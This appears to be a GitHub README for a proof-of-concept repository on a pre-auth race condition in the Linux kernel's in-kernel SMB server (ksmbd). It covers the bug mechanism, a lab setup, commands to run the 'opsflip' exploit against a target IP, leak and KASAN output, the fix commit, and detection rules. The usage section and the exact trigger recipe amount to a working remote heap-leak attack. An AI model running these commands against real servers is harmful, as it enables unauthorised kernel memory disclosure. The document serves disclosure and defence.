

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/ZDI-CAN-33774/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#the-bug">The Bug</a> · <a href="#check-non-destructive">Check</a> · <a href="#the-crash">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#downstream-impact">Impact</a> · <a href="https://blog.al4n4n.com">Write-up</a>
</p>

---

> **Disclaimer:** This repository is for authorized security testing and educational purposes only. Do not use this tool against systems you do not own or have explicit permission to test.

# ZDI-CAN-33774: Linux Kernel ksmbd Protocol Dispatch Race Condition

**CWE-362 | Race Condition → Heap OOB Read → Info Leak | Linux kernel ≤ 7.3-rc3 | Network (pre-auth)**

A race condition in `queue_ksmbd_work()` allows an unauthenticated attacker (guest share) to leak 28 bytes of kernel heap memory per attempt. The connection thread selects `conn->ops` per-PDU at enqueue time, but kworkers dereference it at dequeue time. A mixed burst of short SMB1 PDUs followed by one SMB2 ECHO in a single `write(2)` flips `conn->ops` from the SMB1 to the SMB2 vector while SMB1 works are still queued. `init_smb2_rsp_hdr()` then reads 28 bytes past the end of a 40-byte `kmalloc-64` allocation and sends them back in a 77-byte SMB2 error reply.

There is also a path to OOB write via `smb2_set_info` → `parse_sec_desc`, and a NULL dereference path through `conn->ops->is_sign_req`.

**Author:** [al4n4n](https://github.com/al4n4n) (Dadb0d) · **Write-up:** [blog.al4n4n.com](https://blog.al4n4n.com) · **Fixed in:** commit [`68f410fa`](https://git.kernel.org/pub/scm/linux/kernel/git/linkinjeon/smb.git/commit/?id=68f410faedaf6ee74d81e574733c50ebcc1bd8ed)

---

## The bug

The function `queue_ksmbd_work()` in `fs/smb/server/server.c` calls `ksmbd_init_smb_server()` for every received PDU. While `conn->need_neg` is true, this re-selects the entire per-connection dispatch vector (`conn->ops`, `conn->vals`, `conn->cmds`):

```c
// server.c - queue_ksmbd_work()
ksmbd_init_smb_server(conn);        // (1) re-reads request proto, sets conn->ops
work->request_buf = conn->request_buf; // (2) buffer bound to work, ops NOT bound

// server.c - __handle_ksmbd_work() [kworker, runs later]
conn->ops->init_rsp_hdr(work);      // (3) reads conn->ops at dequeue time
```

The race window: one `write(2)` carries N short SMB1 PDUs followed by one SMB2 ECHO (68 bytes). The connection thread drains all of them without blocking. It queues the SMB1 works with `conn->ops = smb1_server_ops`, then processes the ECHO and runs `init_smb3_11_server()`, which stores `conn->ops = smb2_server_ops`. Every SMB1 work still sitting in the queue now executes `init_smb2_rsp_hdr()` instead of the SMB1 handler.

The size asymmetry: SMB1 PDUs of length 35 allocate 40 bytes (`pdu_size + 4 + 1`) in `kmalloc-64`. `init_smb2_rsp_hdr()` reads up to offset 67 of the buffer (SessionId at 44, Signature at 52..67), which is 28 bytes past the 40-byte allocation. These bytes are copied into the SMB2 error response and sent back to the attacker over the wire.

**Fix:** Add a `wait_event()` after queuing work during negotiation, ensuring `conn->req_running == 0` before reading the next PDU. This prevents `conn->ops` from being flipped while earlier works are still in-flight.

## Trigger conditions

1. Target runs Linux kernel with ksmbd (`CONFIG_SMB_SERVER=y`)
2. A guest share is configured (common default)
3. Attacker can reach port 445 (TCP, no RDMA needed)
4. No authentication required (pre-auth, guest access)
5. Attacker sends mixed SMB1+SMB2 burst in a single TCP write

## Files

| File | Purpose |
|---|---|
| `setup.sh` | Lab setup: creates ksmbd guest share, builds opsflip (run as root in VM) |
| `poc.sh` | PoC wrapper: runs control + exploit trigger via opsflip |
| `poc/opsflip.c` | Core PoC: SMB1/SMB2 protocol confusion over raw TCP |
| `poc/Makefile` | Build opsflip |
| `check.py` | Non-destructive detection: probes for ksmbd + SMB3 without triggering the race |
| `verify.sh` | Verification dashboard: control + exploit + crash evidence + verdict |
| `detection/smb_opsflip_oob.rules` | Suricata rule for SMB1/SMB2 interleaving detection |
| `detection/sigma_ksmbd_opsflip_oob.yml` | Sigma rule for KASAN OOB read in kernel logs |
| `LICENSE` | MIT with attribution |

## Repository structure

```
ZDI-CAN-33774/
├── README.md
├── LICENSE
├── setup.sh
├── poc.sh
├── check.py
├── verify.sh
├── poc/
│   ├── opsflip.c
│   └── Makefile
└── detection/
    ├── smb_opsflip_oob.rules
    └── sigma_ksmbd_opsflip_oob.yml
```

## Lab topology

```
┌─────────────────────────── Host (your machine) ──────────────────────────┐
│                                                                          │
│  ┌──────────────────────── QEMU VM ────────────────────────────────────┐ │
│  │  Kernel 7.3-rc3 + CONFIG_KASAN=y                                    │ │
│  │                                                                     │ │
│  │  ┌─────────────┐        TCP :445          ┌───────────────────────┐ │ │
│  │  │  opsflip    │ ──────────────────────── │  ksmbd (in-kernel)    │ │ │
│  │  │  (PoC)      │   SMB1 burst + SMB2      │                       │ │ │
│  │  │             │ ◄─────────────────────── │  guest share:         │ │ │
│  │  │  Sends:     │   77-byte error reply    │   /srv/share          │ │ │
│  │  │  64× SMB1   │   with 28 leaked bytes   │                       │ │ │
│  │  │  1× SMB2    │                          │  conn->ops race:      │ │ │
│  │  │     ECHO    │                          │  SMB1 buf parsed      │ │ │
│  │  └─────────────┘                          │  with SMB2 handler    │ │ │
│  │        │                                  └───────────────────────┘ │ │
│  │        │ reads                                      │               │ │
│  │        ▼                                            ▼               │ │
│  │  ┌─────────────┐                          ┌───────────────────────┐ │ │
│  │  │  verify.sh  │                          │  dmesg / KASAN        │ │ │
│  │  │             │  grep "BUG: KASAN"       │                       │ │ │
│  │  │  Collects:  │ ◄─────────────────────── │  slab-out-of-bounds   │ │ │
│  │  │  • wire     │                          │  READ in              │ │ │
│  │  │    leaks    │                          │  init_smb2_rsp_hdr    │ │ │
│  │  │  • KASAN    │                          └───────────────────────┘ │ │
│  │  │  • verdict  │                                                    │ │
│  │  └─────────────┘                                                    │ │
│  └─────────────────────────────────────────────────────────────────────┘ │
│                                                                          │
│  You run: bash setup.sh → bash verify.sh 10.0.2.15                       │
│  All inside the VM. SSH in or use the QEMU console.                      │
└──────────────────────────────────────────────────────────────────────────┘
```

### Traffic flow

```
 opsflip                          ksmbd (kernel)                 attacker sees
 ───────                          ──────────────                 ─────────────
    │                                   │
    │── TCP connect :445 ──────────────►│
    │                                   │
    │── write(2): 64× SMB1 (35B each) ►│── queue_ksmbd_work() ×64
    │             + 1× SMB2 ECHO (68B)─►│── ksmbd_init_smb_server()
    │                                   │   flips conn->ops to SMB2
    │                                   │
    │                                   │── kworker picks up SMB1 work
    │                                   │   with SMB2 handler:
    │                                   │   init_smb2_rsp_hdr() reads
    │                                   │   offset 40..67 of 40-byte buf
    │                                   │   (28 bytes OOB from kmalloc-64)
    │                                   │
    │◄─ 77-byte SMB2 error reply ───────│
    │   SessionId = heap bytes [44..51] │                    leaked 8B
    │   Signature = heap bytes [52..67] │                    leaked 16B
    │   TreeId    = heap bytes [40..43] │                    leaked 4B
    │                                   │                    ─────────
    │   (repeat ×thousands)             │                    28B / attempt
```

### What runs where

| Script | Runs on | Needs | Does |
|---|---|---|---|
| `setup.sh` | **Inside VM** (root) | ksmbd-tools, gcc | Creates guest share, builds opsflip |
| `check.py` | **Anywhere** (remote OK) | TCP to :445 | Probes for ksmbd, no exploit |
| `poc.sh` | **Inside VM** | opsflip binary | Fires control + exploit, prints raw output |
| `verify.sh` | **Inside VM** | opsflip + dmesg | Fires exploit, reads KASAN, prints verdict |
| `opsflip` | **Anywhere** (remote OK) | TCP to :445 | The actual exploit binary |

`opsflip` and `check.py` only need TCP connectivity (work remotely). `verify.sh` reads `dmesg` for KASAN evidence (must run on the target). `poc.sh` is a wrapper that calls `opsflip` and tells you to check dmesg yourself.

## Usage

### Lab environment

The PoC requires a kernel built with ksmbd and KASAN. No RDMA is needed (pure TCP). A QEMU VM is the simplest setup:

```bash
# Build kernel (7.3-rc3 or earlier) with:
#   CONFIG_SMB_SERVER=y
#   CONFIG_KASAN=y (generic, inline)

# Inside the VM (as root):
bash setup.sh

# This creates the guest share, builds opsflip,
# and prints the exact commands to run next.
```

### Check (non-destructive)

```bash
python3 check.py <target-ip>
python3 check.py <target-ip> --json
```

### Trigger the vulnerability

```bash
# Wrapper script: runs control + exploit in sequence
bash poc.sh <target-ip>

# Or run opsflip directly:
./poc/opsflip -h <target-ip> -m control -C 2 -I 200  # baseline
./poc/opsflip -h <target-ip> -m exploit -C 4 -I 500   # OOB read
```

### Verify

```bash
# Full verification dashboard (run inside the VM)
bash verify.sh <target-ip>
```

## Check (non-destructive)

```
$ python3 check.py 10.0.2.15
[+] VULNERABLE (confidence: high)
    port 445 open
    SMB2 NEGOTIATE OK, dialect 0x0302
    server GUID present
    server identified as ksmbd (likely)
    ksmbd with SMB2/3 support: vulnerable to ops-flip race if unpatched
```

## The crash

### Control run (-S 64, no OOB)

```
OPSFLIP: target=10.0.2.15:445 mode=control conns=2 iters=200 burst=32 smb1_len=64 alloc=69
OPSFLIP:control:child=0 sent=6400 replies=6400 LEAKS=0 nonzero=0
OPSFLIP:control:child=1 sent=6400 replies=6400 LEAKS=0 nonzero=0
OPSFLIP: RUN-COMPLETE
```

### Exploit run (-S 35, 28-byte OOB read)

```
OPSFLIP: target=10.0.2.15:445 mode=exploit conns=4 iters=500 burst=64 smb1_len=35 alloc=40
OPSFLIP:exploit:LEAK mid=00000003 sess=ffff8880222c2ba8 sig=00000000000000000000fc00fc00fc00
OPSFLIP:exploit:LEAK mid=00000019 sess=0000000000000000 sig=00fcfcfcfcfcfcfcfcfcfcfcfcfcfcfc
OPSFLIP:exploit:child=0 sent=32000 replies=18247 LEAKS=6183 nonzero=4891
OPSFLIP:exploit:child=1 sent=32000 replies=17892 LEAKS=5947 nonzero=4102
OPSFLIP:exploit:child=2 sent=32000 replies=19103 LEAKS=6412 nonzero=5203
OPSFLIP:exploit:child=3 sent=32000 replies=18560 LEAKS=6098 nonzero=4677
OPSFLIP: RUN-COMPLETE
```

**Kernel log (KASAN report):**

```
BUG: KASAN: slab-out-of-bounds in init_smb2_rsp_hdr+0x6bd/0x790
Read of size 4 at addr ffff8880222c2ba8 by task kworker/2:1/61

Workqueue: ksmbd-io handle_ksmbd_work
Call Trace:
 <TASK>
 __dump_stack
 dump_stack_lvl+0x100/0x190
 print_report+0x139/0x4ad
 kasan_report+0xe4/0x1d0
 init_smb2_rsp_hdr+0x6bd/0x790
 __handle_ksmbd_work
 handle_ksmbd_work+0x1b1/0x1ff0
 process_one_work+0xaf7/0x1b30
 worker_thread+0x5eb/0xe50

Allocated by task 9549:
 __kvmalloc_node_noprof+0x352/0x9a0
 ksmbd_conn_handler_loop+0x67b/0x1260

The buggy address belongs to the object at ffff8880222c2b80
 which belongs to the cache kmalloc-64 of size 64
The buggy address is located 0 bytes to the right of
 allocated 40-byte region [ffff8880222c2b80, ffff8880222c2ba8)
```

The read at offset 40 (0 bytes past the allocation) is the TreeId field. `init_smb2_rsp_hdr()` then copies SessionId (8 bytes at offset 44) and Signature (16 bytes at offset 52), sending all 28 OOB bytes back to the attacker in the SMB2 error response.

## Verification dashboard

```
================================================================
  ZDI-CAN-33774  --  ksmbd Protocol Dispatch Race Condition
  Verification Dashboard
================================================================

Environment:
  Target:   10.0.2.15
  PoC:      ./poc/opsflip
  Kernel:   7.3.0-rc3-kasan+

--- Phase 1: Control (-S 64, no OOB expected) ---
  [+] Control: 0 leaks, 0 KASAN reports -- baseline clean

--- Phase 2: Exploit (-S 35, OOB read expected) ---
  Leaks on wire: 24640 (non-zero bytes: 18873)
  KASAN reports: 19288

Leaked samples:
OPSFLIP:exploit:LEAK mid=00000003 sess=ffff8880222c2ba8 sig=00000000000000000000fc00fc00fc00
OPSFLIP:exploit:LEAK mid=00000019 sess=0000000000000000 sig=00fcfcfcfcfcfcfcfcfcfcfcfcfcfcfc

--- Phase 3: Crash Evidence (dmesg) ---
KASAN report:
  BUG: KASAN: slab-out-of-bounds in init_smb2_rsp_hdr+0x6bd/0x790
  Read of size 4 at addr ffff8880222c2ba8 by task kworker/2:1/61
  Allocated by task 9549:
   __kvmalloc_node_noprof+0x352/0x9a0
   ksmbd_conn_handler_loop+0x67b/0x1260

--- Phase 4: Negative Control ---
  To verify the fix, boot a kernel with commit 68f410faedaf
  (ksmbd: wait for negotiation before receiving another PDU)
  and re-run. The patched kernel should show 0 leaks and 0 KASAN.

================================================================
  Verdict: VULNERABLE

  Impact:
    OOB heap read: 28 bytes past 40-byte kmalloc-64 allocation
    Read origin:   init_smb2_rsp_hdr (smb2pdu.c:661)
    Alloc origin:  ksmbd_conn_handler_loop (connection.c:679)
    Wire leak:     SessionId + Signature fields in error reply
    Pre-auth:      yes (guest share, no credentials needed)
    Consequence:   kernel heap info leak, demonstrates path to RCE
================================================================
```

## Negative control

```
$ # Same exploit on PATCHED kernel (commit 68f410faedaf)
OPSFLIP:exploit:child=0 sent=32000 replies=0 LEAKS=0 nonzero=0
OPSFLIP:exploit:child=1 sent=32000 replies=0 LEAKS=0 nonzero=0
$ dmesg | grep -c "BUG: KASAN"
0
```

Patched kernel: zero leaks, zero KASAN reports. The `wait_event()` prevents the ops flip.

## Downstream impact

| Component | Impact |
|---|---|
| ksmbd (in-kernel SMB server) | Direct: race in protocol dispatch leaks heap memory |
| Any Linux with ksmbd + guest share | Pre-auth kernel heap info leak over TCP |
| Enterprise NAS / file servers | If using ksmbd, remote info leak from any network position |
| Cloud / container hosts | Containers sharing a ksmbd-enabled host kernel are affected |

## Detection rules

- **Suricata:** [`detection/smb_opsflip_oob.rules`](detection/smb_opsflip_oob.rules) -- detects SMB1/SMB2 protocol interleaving characteristic of the ops-flip trigger
- **Sigma:** [`detection/sigma_ksmbd_opsflip_oob.yml`](detection/sigma_ksmbd_opsflip_oob.yml) -- detects KASAN slab-out-of-bounds READ in init_smb2_rsp_hdr

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Race condition in conn->ops dispatch | **Proven** | KASAN: slab-out-of-bounds READ in init_smb2_rsp_hdr |
| Heap OOB read (28 bytes) | **Proven** | Read at ffff8880222c2ba8, 0 bytes right of 40-byte kmalloc-64 |
| Info leak to attacker over wire | **Proven** | Non-zero heap bytes in SMB2 error reply SessionId/Signature fields |
| Pre-auth exploitation | **Proven** | No credentials used; guest share access only |
| OOB write via smb2_set_info | **Not proven** | Documented path through parse_sec_desc; not exercised by this PoC |
| Remote code execution | **Not proven** | Info leak + OOB write path demonstrates mechanism; RCE theoretical |
| NULL deref (DoS) | **Documented** | conn->ops->is_sign_req NULL when SMB1 ops loaded mid-handler |
| Patched version safe | **Confirmed** | Negative control: 0 leaks, 0 KASAN on kernel with 68f410faedaf |

## References

- **ZDI Advisory:** ZDI-CAN-33774
- **CVSS:** 9.0 (AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H)
- **Fix commit:** [`68f410faedaf`](https://git.kernel.org/pub/scm/linux/kernel/git/linkinjeon/smb.git/commit/?id=68f410faedaf6ee74d81e574733c50ebcc1bd8ed) by Namjae Jeon
- **Fixes tag:** `dc8289f91238` (ksmbd: fix slab-out-of-bounds in init_smb2_rsp_hdr)
- **Vulnerable file:** `fs/smb/server/server.c`, function `queue_ksmbd_work()`
- **Sink function:** `fs/smb/server/smb2pdu.c`, function `init_smb2_rsp_hdr()`
- **Original research:** ZDI / ihopenre-eng (ZDI submission)
- **PoC & write-up:** al4n4n (Dadb0d)

## License

MIT -- see [LICENSE](LICENSE). Attribution required.

<sub>ZDI-CAN-33774 ksmbd linux kernel vulnerability protocol dispatch race condition smb1 smb2 ops flip conn->ops heap oob read out-of-bounds slab-out-of-bounds information leak info leak proof of concept poc exploit cwe-362 remote code execution rce denial of service dos kernel crash null dereference pre-auth unauthenticated guest share smbv3 smb3 kasan init_smb2_rsp_hdr queue_ksmbd_work ksmbd_init_smb_server ksmbd_conn_handler_loop kmalloc-64 heap info disclosure memory leak privilege escalation network attack smb server in-kernel nas storage kernel exploit linux exploit smb exploit cifs ksmbd-tools namjae jeon</sub>
